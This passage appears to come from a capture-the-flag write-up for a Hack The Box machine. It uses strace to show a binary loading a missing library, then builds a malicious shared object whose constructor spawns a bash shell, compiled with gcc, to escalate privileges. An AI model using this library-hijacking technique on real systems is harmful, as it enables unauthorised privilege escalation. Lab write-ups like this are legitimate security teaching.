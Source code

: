There I enter “0xdf” and see the `write` call showing it failed.

If I try `strace` with the correct password, I’ll notice something interesting just after:

```
write(1, "Enter the password: ", 20Enter the password: )    = 20
read(0, St0ckM4nager
"St0ckM4nager\n", 1024)         = 13
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
write(1, "\n================== Menu ======="..., 44
================== Menu ==================
) = 44
write(1, "\n", 1
)                       = 1
write(1, "1) See the stock\n", 171) See the stock
)      = 17
write(1, "2) Edit the stock\n", 182) Edit the stock
)     = 18
write(1, "3) Exit the program\n", 203) Exit the program
)   = 20
write(1, "\n", 1
)                       = 1
write(1, "Select an option: ", 18Select an option: )      = 18
read(0,

```

Before it prints the menu, it attempts to load `/home/rektsu/.config/libcounter.so`, but fails because that file doesn’t exist.

### Malicious SO

If I can create a malicious shared object (library) in that location, it will be loaded by the binary. Any code I put into a constructor will be executed. I’ve shown this before, most recently with [Broker](https://0xdf.gitlab.io/2023/11/09/htb-broker.html#create-so).

I’ll write a simple C file:

```
rektsu@zipping:/home/rektsu/.config$ cat libcounter.c
#include <stdlib.h>
__attribute__ ((__constructor__))
void shell(void){
    system("/bin/bash");
}

```

It marks the `shell` function as a constructor, which means it runs when the library is loaded. That function simply calls `/bin/bash`, interrupting the flow of the program and returning an interactive shell.

I’ll compile this as a shared object:

```
rektsu@zipping:/home/rektsu/.config$ gcc -shared -o libcounter.so -fPIC libcounter.c
rektsu@zipping:/home/rektsu/.config$ ls
libcounter.c  libcounter.so

```
